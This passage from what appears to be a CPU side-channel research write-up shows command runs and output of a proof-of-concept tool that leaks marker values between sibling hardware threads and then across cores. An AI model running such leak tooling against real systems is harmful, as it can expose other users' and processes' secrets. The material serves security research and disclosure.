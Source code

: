 And we test two siblings:

</PRE>
```console
$ ./barbiesparkles -c 2 -s 42424242 -n 512 -I 100 | grep result
(...)
result targetsrc val: 0x42424242, access time: 495
result targetsrc val: 0x42424242, access time: 1440
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x0, access time: 495
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x42424242, access time: 495
result targetsrc val: 0x33333333, access time: 495
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x42424242, access time: 495
(...)
$ ./barbiesparkles -c 10 -s 41414141 -n 512 -I 100 | grep result
(...)
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x42424242, access time: 495
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x42424242, access time: 630
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x41414141, access time: 495
result targetsrc val: 0x41414141, access time: 495
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x42424242, access time: 495
result targetsrc val: 0x42424242, access time: 495
result targetsrc val: 0x41414141, access time: 540
result targetsrc val: 0x0, access time: 495
result targetsrc val: 0x41414141, access time: 540
result targetsrc val: 0x8, access time: 495
result targetsrc val: 0x42424242, access time: 540
result targetsrc val: 0x42424242, access time: 540
(...)
```
<PRE>

This shows that whatever buffer we are leaking from, it is shared within 
the core at least. Next step, can we leak cross-core?

</PRE>
```console
$ ./barbiesparkles -c 2 -s 43434343 -n 512 -I 100 &>/dev/null
$ ./barbiesparkles -c 3 -s 44444444 -n 512 -I 100 | grep result
result targetsrc val: 0x43434343, access time: 540
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x43434343, access time: 540
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x43434343, access time: 495
result targetsrc val: 0x44444444, access time: 495
result targetsrc val: 0x43434343, access time: 585
result targetsrc val: 0x0, access time: 585
result targetsrc val: 0x43434343, access time: 540
result targetsrc val: 0x43434343, access time: 540
result targetsrc val: 0x43434343, access time: 540
result targetsrc val: 0x44444444, access time: 495
result targetsrc val: 0x44444444, access time: 495
result targetsrc val: 0x0, access time: 495
```